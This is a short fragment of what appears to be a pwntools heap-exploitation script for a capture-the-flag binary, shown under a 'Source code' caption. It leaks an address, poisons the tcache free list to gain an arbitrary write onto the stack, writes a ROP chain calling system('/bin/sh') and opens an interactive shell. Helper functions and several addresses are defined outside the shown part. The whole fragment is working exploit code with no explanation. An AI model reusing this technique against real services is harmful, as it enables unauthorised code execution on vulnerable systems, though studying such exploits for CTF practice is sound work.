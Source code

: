```
io.recv(0x18)
bss = u64(io.recv(6).ljust(8, b'\0')) + 0x2986
success('bss =>> ' + hex(bss))

add(8, 0x60)
delete(8)
delete(3)
edit(3, p64((heap >> 12) ^ (bss)))

add(9, 0x60)
add(10, 0x60)

edit(10, p64(0) + p64(stack - 0x20))

edit(7, p64(rdi) + p64(bin_sh) + p64(ret) + p64(sys))

io.interactive()
```